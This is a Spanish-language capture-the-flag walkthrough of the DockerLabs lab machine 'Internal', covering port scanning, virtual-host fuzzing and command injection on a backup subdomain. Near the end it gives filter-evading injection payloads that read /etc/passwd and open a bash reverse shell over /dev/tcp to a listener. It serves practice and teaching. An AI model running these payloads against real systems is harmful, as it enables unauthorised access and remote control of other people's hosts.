









# 🧠 **Informe de Pentesting – Máquina: Internal**

### 💡 **Dificultad:** Fácil

📦 **Plataforma:** DockerLabs



---

# 🚀 **1. Despliegue del Entorno**

El primer paso consiste en desplegar la máquina vulnerable proporcionada por la plataforma. Para ello, se descomprime el archivo entregado y se ejecuta el script de automatización.

### 📦 Descompresión del laboratorio

```bash
unzip internal.zip
```

### ⚙️ Despliegue del contenedor

```bash
sudo bash auto_deploy.sh internal.tar
```
Este script inicializa el entorno Docker con la máquina objetivo, asignándole una IP interna accesible desde el host atacante.



---

# 📶 **2. Comprobación de Conectividad**

Antes de iniciar el reconocimiento, se valida la conectividad con la máquina víctima mediante una petición ICMP.

```bash
ping -c1 172.17.0.2
```

El objetivo responde correctamente, confirmando que el host está activo y accesible dentro de la red local del entorno Docker.


---


# 🔍 **3. Reconocimiento y Escaneo de Puertos**

## 📡 Escaneo completo de puertos TCP

Se realiza un escaneo agresivo de todos los puertos TCP con el objetivo de identificar servicios expuestos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

### 📌 Resultados obtenidos

* `22/tcp` → SSH (OpenSSH)
* `80/tcp` → Servicio HTTP (Apache)

Se confirma que la superficie de ataque incluye un servicio web y un servicio de acceso remoto.

---

## 🧩 Enumeración de versiones y servicios

Se ejecuta un escaneo más detallado para identificar versiones y configuración de los servicios:

```bash
nmap -sCV -p22,80 172.17.0.2
```

Este análisis permite detectar información relevante como el tipo de servidor web, posibles endpoints y configuración del servicio SSH.



---

---

# 🌐 **4. Enumeración Web**

Accedemos al servicio HTTP:

```bash
http://172.17.0.2
```

No muetsra un dominio:

internal.dl

Se tiene que agregar a: /etc/hosts

```bash
nano /etc/hosts
```
```bash
172.17.0.2 internal.dl
```
 

Y nos muestra una pagina: 

 

No encontramos hicimos fuzzing de directorios sin exito asi que buscamos subdominios:

```bash
gobuster vhost --append-domain -u http://internal.dl/ -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -k --exclude-length 154
```
  

Y encontramos 

```bash
backup.internal.dl
```

Se tiene que agregar tambien a: /etc/hosts

```bash
nano /etc/hosts
```
```bash
172.17.0.2 internal.dl backup.internal.dl
```
 

Podemos acceder y encontramos una parte donde podemos mandar comandos:

 

Al hacer pruebas podemos ver usuarios con el comando:

```bash
/etc/passwd$(c''a''t /etc/passwd)
```

 

usuario encotrado

```bash
vault
```
Ahora en la maquina atacante nos ponemos en modo escuha:

```bash
sudo nc -lvn 445
```

y ejecuatmos el payload para acceder a una terminal

```bash
/home $(bash ''h -c "bash''h -i <& /dev/tcp/192.168.0.100/445 0>&1")
```
